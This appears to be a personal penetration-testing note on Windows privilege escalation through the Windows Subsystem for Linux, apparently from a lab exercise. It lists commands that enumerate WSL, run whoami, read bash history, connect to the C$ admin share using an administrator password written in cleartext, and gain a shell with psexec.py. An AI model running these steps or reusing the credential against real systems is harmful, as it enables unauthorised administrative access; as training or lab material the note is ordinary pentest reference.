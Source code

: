 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

[[99.__Links (WINDOWS)#Escalation Path Windows Subsystem for Linux]]

```powershell - target
Get-ChildItem HKCU:\Software\Microsoft\Windows\CurrentVersion\Lxss | %{Get-ItemProperty $_.PSPath} | out-string -width 4096
```

```command prompt - windows
where /R C:\windows bash.exe
```

```command prompt - windows
where /R C:\windows wsl.exe
```


![[Pasted image 20220203172255.png]]

```command prompt - windows
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
```

![[Pasted image 20220203172529.png]]

```command prompt - windows
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

```bash - wsl
uname -a
```

![[Pasted image 20220203172713.png]]

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Shell break]]

```bash - wsl
history
```

![[Pasted image 20220203173050.png]]

```bash - kali
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\$TARGET\\c$
```

[[zz._Gaining Shell Access (psexec.py)]]

```bash - kali
psexec.py '$USER:$PASSWORD'@$TARGET
```
